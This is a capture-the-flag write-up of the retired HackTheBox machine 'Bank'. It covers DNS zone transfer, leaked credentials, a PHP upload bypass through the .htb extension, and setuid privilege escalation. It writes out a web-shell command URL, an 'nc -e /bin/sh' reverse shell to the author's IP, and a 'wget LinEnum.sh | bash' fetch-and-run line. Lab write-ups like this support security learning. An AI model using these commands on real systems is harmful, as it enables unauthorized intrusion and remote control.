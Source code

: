 # Bank

This is the write-up for the box Bank that got retired at the 22nd September 2017.
My IP address was 10.10.14.23 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.29    bank.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/bank.nmap 10.10.10.29
```

```markdown
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 08:ee:d0:30:d5:45:e4:59:db:4d:54:a8:dc:5c:ef:15 (DSA)
|   2048 b8:e0:15:48:2d:0d:f0:f1:73:33:b7:81:64:08:4a:91 (RSA)
|   256 a0:4c:94:d1:7b:6e:a8:fd:07:fe:11:eb:88:d5:16:65 (ECDSA)
|_  256 2d:79:44:30:c8:bb:5e:8f:07:cf:5b:72:ef:a1:6d:67 (ED25519)
53/tcp open  domain  ISC BIND 9.9.5-3ubuntu0.14 (Ubuntu Linux)
| dns-nsid:
|_  bind.version: 9.9.5-3ubuntu0.14-Ubuntu
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking DNS (Port 53)

Lets enumerate some DNS information with _nslookup_:
```markdown
nslookup

> SERVER 10.10.10.29

Default server: 10.10.10.29
Address: 10.10.10.29#53

> 127.0.0.1

1.0.0.127.in-addr.arpa  name = localhost.

> 10.10.10.29

** server can't find 29.10.10.10.in-addr.arpa: NXDOMAIN

> bank.htb

Server:         10.10.10.29
Address:        10.10.10.29#53

Name:   bank.htb
Address: 10.10.10.29
```

Reverse lookup is not active and the hostname _bank.htb_ responds to the IP.
Lets try a **DNS Zone Transfer** with _dig_:
```markdown
dig axfr bank.htb @10.10.10.29

# Output
bank.htb.               604800  IN      SOA     bank.htb. chris.bank.htb. 2 604800 86400 2419200 604800
bank.htb.               604800  IN      NS      ns.bank.htb.
bank.htb.               604800  IN      A       10.10.10.29
ns.bank.htb.            604800  IN      A       10.10.10.29
www.bank.htb.           604800  IN      CNAME   bank.htb.
bank.htb.               604800  IN      SOA     bank.htb. chris.bank.htb. 2 604800 86400 2419200 604800
```

There are some subdomains that we will put into our hosts file.

## Checking HTTP (Port 80)

On the web page it displays the default Apache2 Ubuntu installation page.
As we found out, there is a domain name, we can browse to the web page with the domain name _bank.htb_ and we get a login page.
This is called **Virtual Host Routing**.

![Bank login page](https://kyuu-ji.github.io/htb-write-up/bank/bank_login.png)

We use **Gobuster** to enumerate hidden paths on this page with the PHP extension:
```markdown
gobuster -u http://bank.htb/ dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php
```

There are these directories that could be interesting:
- /uploads (Status: 301)
- /inc (Status: 301)
- /index.php (Status: 302)
- /support.php (Status: 302)
- /balance-transfer (Status: 200)

### Method 1 - Ignore redirects

With Burpsuite it is possible to see the web pages that redirect us by changing the HTTP response code from _302 Found_ to HTTP code _200 OK_.

This is the index.php page:

![Bank index page](https://kyuu-ji.github.io/htb-write-up/bank/bank_index.png)

This is the support.php page:

![Bank support page](https://kyuu-ji.github.io/htb-write-up/bank/bank_support-1.png)

We can upload code on the support.php to get command execution on the box.


### Method 2 - Intended way

The directory _balance-transfers_ has many of these files in it:

![Bank balance-transfers page](https://kyuu-ji.github.io/htb-write-up/bank/bank_balance-transfers.png)

There are around 1000 of these files. Looking at one of them they hold this content:
```markdown
++OK ENCRYPT SUCCESS
+=================+
| HTB Bank Report |
+=================+

===UserAccount===
Full Name: czeCv3jWYYljNI2mTedDWxNCF37ddRuqrJ2WNlTLje47X7tRlHvifiVUm27AUC0ll2i9ocUIqZPo6jfs0KLf3H9qJh0ET00f3josvjaWiZkpjARjkDyokIO3ZOITPI9T
Email: 1xlwRvs9vMzOmq8H3G5npUroI9iySrrTZNpQiS0OFzD20LK4rPsRJTfs3y1VZsPYffOy7PnMo0PoLzsdpU49OkCSSDOR6DPmSEUZtiMSiCg3bJgAElKsFmlxZ9p5MfrE
Password: TmEnErfX3w0fghQUCAniWIQWRf1DutioQWMvo2srytHOKxJn76G4Ow0GM2jgvCFmzrRXtkp2N6RyDAWLGCPv9PbVRvbn7RKGjBENW3PJaHiOhezYRpt0fEV797uhZfXi
CreditCards: 5
Transactions: 93
Balance: 905948 .
===UserAccount===
```

Lets download all of them, to examine them easier in the shell.
```markdown
wget -r http://bank.htb/balance-transfer/
```

By sorting them by file size it becomes clear that most of them have either 583, 584 or 585 bytes except for one that has 257 bytes.
```markdown
wc -c \*.acc | sort -n -r
```

The file with the name **68576f20e9732f1b2edc4df5b8533230.acc** has only 257 bytes and has this content:
```markdown
--ERR ENCRYPT FAILED
+=================+
| HTB Bank Report |
+=================+

===UserAccount===
Full Name: Christos Christopoulos
Email: chris@bank.htb
Password: !##HTBB4nkP4ssw0rd!##
CreditCards: 5
Transactions: 39
Balance: 8842803 .
===UserAccount===
```

When trying this credentials on the login page we get logged in.

There is a _Support_ page where it is possible to upload files.

![Bank support page](https://kyuu-ji.github.io/htb-write-up/bank/bank_support-2.png)

The page allows images but doesn't allow PHP files to be uploaded. Looking at the source there is a comment that says:
> [DEBUG] I added the file extension .htb to execute as php for debugging purposes only [DEBUG]

So lets change the extension of our file to _.htb_ instead.

![File upload](https://kyuu-ji.github.io/htb-write-up/bank/bank_file-upload.png)

The uploaded files are in the center of the support page and clicking on the attachment to browse to that file. Now we can execute commands:
```markdown
http://bank.htb/uploads/logo.htb?cmd=whoami
```

This gives us the output that we are _www-data_. Lets start a reverse shell with this command execution.
```markdown
http://bank.htb/uploads/logo.htb?cmd=nc%20-e%20/bin/sh%2010.10.14.23%209001
```

After a short while the the request gets sent to my listener that waits for connections on my IP and port 9001 and started a reverse shell as www-data!

## Privilege Escalation

When looking at the PHP files from the server, there are credentials for MySQL in the file **/var/www/bank/inc/user.php**:
```php
# (...)
function getUsername($email){
                $mysql = new mysqli("localhost", "root", "!@#S3cur3P4ssw0rd!@#", "htbbank");
                $email = $mysql->real_escape_string($email);
                $result = $mysql->query("SELECT * FROM users WHERE email = '$email'");
                $row = $result->fetch_assoc();
                return $row['username'];
# (...)
```

We can login into MySQL but don't find anything important and starting a shell from there won't start a root shell:
```markdown
mysql -u root -p


mysql> \! /bin/sh
```

The password won't work on the _chris_ nor the _root_ user, so we will execute any Linux enumeration script to get an attack surface.
```markdown
wget http://10.10.14.23/LinEnum.sh | bash
```

Looking at the results, there is a _setuid bit_ set on the **/var/htb/bin/emergency** binary that is not a default Linux binary.
When executing this, we drop into a shell with the effective user ID of root and finished the box!
